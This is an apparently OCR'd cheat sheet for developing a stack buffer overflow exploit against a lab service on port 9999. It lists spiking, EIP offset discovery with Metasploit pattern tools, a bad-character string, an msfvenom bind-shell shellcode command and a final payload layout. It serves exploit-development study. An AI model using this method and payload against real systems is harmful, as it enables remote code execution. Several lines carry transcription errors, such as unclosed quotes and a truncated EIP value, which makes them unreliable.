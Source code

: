 #BUFFER OVERFLOW

## 1- SPIKING

generic_send_tcp 10.10.10.10 9999 stats.spk 0 0

{stats.spk}
s_readline();
s_string("STATS );
s_string_variable("0")

RESULT: SEGMENTATION FAULT

## 2- TEST SIZES

Python script 1

RESULT: EIP OVERWRITE (41414141)

## 3- LOCATE OFFSET 

{PATTERN_CREATE}
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

RESULT: EIP VALUE

{PATTERN_OFFSET}
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q [EIP VALUE]
  
RESULT: OFFSET

## 4- VERIFY EIP CONTROL

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL VALUE]

RESULT: EIP VALUE = 42424242

## 5- SHELLCODE SPACE

TEST SOME LENGTHS FOR "C":

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 1] ==> EIP NOT 42424242

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 2] ==> EIP 424242

RESULT: FILL SIZE

## 6- BADCHARS

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

"A"*OFFSET + "B"*4 + BADCHARS + C*[FILL SIZE]

## 7- GENERATE SHELLCODE

msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

## 8- LOCATE JMP JUMP

{MONA}

## 9- COMPOSE FINAL EXPLOIT

JUNK + [A * 4368] + '\x97\x45\x13\x08' + '\x83\xc0\x0c\xff\xe0' + '\x90\'*20 + shellcode

SHELLCODE + [CHARS TO EIP] + JMP ESP + [JUMP TO BUFFER START]
